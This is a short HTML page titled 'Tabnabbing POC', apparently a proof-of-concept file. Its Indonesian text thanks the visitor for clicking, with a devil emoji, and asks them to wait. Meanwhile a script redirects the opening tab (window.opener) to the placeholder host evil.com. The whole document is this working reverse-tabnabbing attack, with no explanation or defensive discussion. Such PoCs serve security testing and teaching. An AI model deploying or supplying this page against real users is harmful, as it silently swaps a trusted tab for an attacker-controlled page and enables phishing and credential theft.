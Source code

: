 <!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>Tabnabbing POC</title>
</head>
<body>
  <h1>Terima kasih sudah klik link ini 😈</h1>
  <p>Mohon tunggu sebentar...</p>

  <script>
    if (window.opener) {
      window.opener.location = "http://evil.com"; 
    }
  </script>
</body>
</html>
